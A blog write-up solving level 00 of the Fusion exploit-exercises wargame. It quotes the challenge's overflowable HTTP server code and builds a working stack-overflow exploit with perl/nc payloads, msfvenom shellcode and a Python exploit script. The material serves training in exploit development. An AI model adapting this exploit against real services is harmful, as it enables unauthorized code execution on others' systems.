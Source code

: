 ```yaml
---
layout: post
title: "Exploit Exercises - Fusion 00"
date: "2012-04-09T17:13:00-04:00"
comments: true
categories:
 - wargames
 - linux
 - exploit-exercises
 - fusion
 - hacking
---
```


I was very excited to see the announcement on twitter, that [Fusion](http://exploit-exercises.com/fusion) was going to be released, even if it's just the first 10 levels. I was a bit bummed, as I didn't think I'd get to work on it much, until I complete [PWB](http://www.offensive-security.com/online-information-security-training/penetration-testing-backtrack/), but I managed to find a little time to at least start it. I pulled up [level 00](http://exploit-exercises.com/fusion/level00), which looks to be a basic stack overflow in an http server. 

<!-- more -->

The code for the server is below: 

```
#include "../common/common.c" 

int fix_path(char *path)
{
 char resolved[128];

 if(realpath(path, resolved) == NULL) return 1; // can't access path. will error trying to open
 strcpy(path, resolved);
}

char *parse_http_request()
{
 char buffer[1024];
 char *path;
 char *q;

 printf("[debug] buffer is at 0x%08x :-)\n", buffer);

 if(read(0, buffer, sizeof(buffer)) <= 0) errx(0, "Failed to read from remote host");
 if(memcmp(buffer, "GET ", 4) != 0) errx(0, "Not a GET request");

 path = &buffer[4];
 q = strchr(path, ' ');
 if(! q) errx(0, "No protocol version specified");
 *q++ = 0;
 if(strncmp(q, "HTTP/1.1", 8) != 0) errx(0, "Invalid protocol");

 fix_path(path);

 printf("trying to access %s\n", path);

 return path;
}

int main(int argc, char **argv, char **envp)
{
 int fd;
 char *p;

 background_process(NAME, UID, GID); 
 fd = serve_forever(PORT);
 set_io(fd);

 parse_http_request(); 
}
```

I initially had to read through the code a few times to figure out where the overflow was, to be quite honest. When an HTTP request comes in, it goes to the "parse_http_request" method. From there, it reads the buffr in by using the "read" method. Unfortunately for us, it is being careful to only read in as many bytes as it can put into the buffer.  It then does some basic handling to parse out the request.  It verifies that it was a "GET" request, and that it was done using HTTP/1.1. After that, it will pass the path of the URI to "fix_path". In this method, there <i>IS</i> an overflow, since the "resolved" variable has 128 bytes to hold data, but there is no checking of size when the "strcpy" is done. 

I logged into the machine, and made sure that I could actually get a core dump to be created if the process had an exception.  To do this, I changed the core settings for my user: 

```
fusion@fusion:/$ ulimit -c unlimited
```

Based on my analysis, I knew I would be overflowing the URI path, but based on the note given to me, I would put my shellcode after the "HTTP/1.1" since there was a lot more room.  However, I didn't know the EIP offset. So I generated a quick MSF pattern on another machine: 

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_create.rb 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
```

I then started to wire up an exploit like so: 

```
fusion@fusion:/$ perl -e 'print "GET /". "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag" . "\x99\xf9\xff\xbf" . " HTTP/1.1\n" . "\x90"x100 . "\xcc"x100' | nc localhost 20000
```

Note that the "\x99\xf9\xff\xbf" value was simply guessed by taking the buffer offset (conveniently given to us at runtime) of "0xbffff8f8", and adding to it enough bytes for the "GET", the MSF buffer, and the "HTTP/1.1". I had played previously by hand, and knew how long the buffer would be, so I didn't need to break this into 2 steps. 

After executing the command, I found a handy "core" file in the root directory. So I loaded it up in GDB to get the offset: 

```
fusion@fusion:/$ sudo gdb --core=/core --quiet
[New LWP 2280]
Core was generated by `/opt/fusion/bin/level00'.
Program terminated with signal 11, Segmentation fault.
#0  0x65413665 in ?? ()
```

Next, I took that EIP value, and ran it through the MSF Pattern Offset calculator: 

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_offset.rb 0x65413665
139
```

This was convenient enough to let me know that the first 139 bytes were junk, but then I had direct access to the EIP. If my estimate for a return address was close enough to hit a nop sled, it would then hit the "\xcc" debug/trace point. I then tested that: 

```
fusion@fusion:/$ perl -e 'print "GET /". "A"x139 . "\x99\xf9\xff\xbf" . " HTTP/1.1\n" . "\x90"x100 . "\xcc"x100' | nc localhost 20000
```

When I loaded the new core file into GDB, I saw that it indeed hit the debug trap: 

```
fusion@fusion:/$ sudo gdb --core=/core --quiet
[New LWP 2310]
Core was generated by `/opt/fusion/bin/level00'.
Program terminated with signal 5, Trace/breakpoint trap.
#0  0xbffff9fb in ?? ()
(gdb) x/10x $eip
0xbffff9fb:     0xcc    0xcc    0xcc    0xcc    0xcc    0xcc    0xcc    0xcc
0xbffffa03:     0xcc    0xcc
```

The next step was to generate some shellcode.   verified that the process was running as a UID of 20000, and not SUID, so I'm guessing at the end result here. The challenge to me was actually getting the exploit to work, so what the shellcode did was not a big event for me.  I decided to just make it write a file to /tmp. This could however be adapted to anything else. 

I used Metasploit's MSFVenom tool to generate me some shellcode to "touch /tmp/poo" as a test: 

```
mandreko@li225-134:~$ msfvenom -p linux/x86/exec -f pl CMD="touch /tmp/poo"
my $buf =
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73" .
"\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x0f\x00\x00" .
"\x00\x74\x6f\x75\x63\x68\x20\x2f\x74\x6d\x70\x2f\x70\x6f" .
"\x6f\x00\x57\x53\x89\xe1\xcd\x80";
```

I then plugged that shellcode into my exploit: 

```
fusion@fusion:/$ perl -e 'print "GET /". "A"x139 . "\x99\xf9\xff\xbf" . " HTTP/1.1\n" . "\x90"x100 . "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x0f\x00\x00\x00\x74\x6f\x75\x63\x68\x20\x2f\x74\x6d\x70\x2f\x70\x6f\x6f\x00\x57\x53\x89\xe1\xcd\x80"' | nc localhost 20000
[debug] buffer is at 0xbffff8f8 :-)
```

Lastly, I verified that it did run the shellcode: 

```
fusion@fusion:/$ ls -al /tmp
total 8
drwxrwxrwt  2 root  root  4096 2012-04-09 21:25 .
drwxr-xr-x 22 root  root  4096 2012-04-09 21:22 ..
-rw-r--r--  1 20000 20000    0 2012-04-09 21:25 poo
```

There you have it, successful exploitation, using very basic methods. This one felt very much like the first day back from summer break, but I'm guessing it'll get much harder quickly. 

UPDATE 5/7/2012: Added python exploit: 

```
# Fusion Level 00
# http://exploit-exercises.com/fusion/level00
# Matt Andreko
# twitter: @mandreko
# contact: matt [at] mattandreko.com

from sys import exit
from struct import pack
from optparse import OptionParser
from socket import *

def exploit(hostname, port):
        junk = "A"*139
        ret = pack("<I", 0xbffff999)
        nops = "\x90"*100
        shellcode = "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x0f\x00\x00\x00\x74\x6f\x75\x63\x68\x20\x2f\x74\x6d\x70\x2f\x70\x6f\x6f\x00\x57\x53\x89\xe1\xcd\x80"

        s = socket(AF_INET, SOCK_STREAM)
        try:
                print "[*] Connecting to %s on port %s" % (hostname, port)
                s.connect((hostname, port))
        except:
                print "[*] Connection error"
                exit(1)

        print s.recv(1024)
        s.send("GET /" + junk + ret + " HTTP/1.1\n" + nops + shellcode)


if __name__ == "__main__":
    parser = OptionParser("usage: %prog [options]")
    parser.add_option("-H", "--host", dest="hostname", default="127.0.0.1",
     type="string", help="Target to run against")
    parser.add_option("-p", "--port", dest="portnum", default=20000,
     type="int", help="Target port")

    (options, args) = parser.parse_args()

    exploit(options.hostname, options.portnum)
```
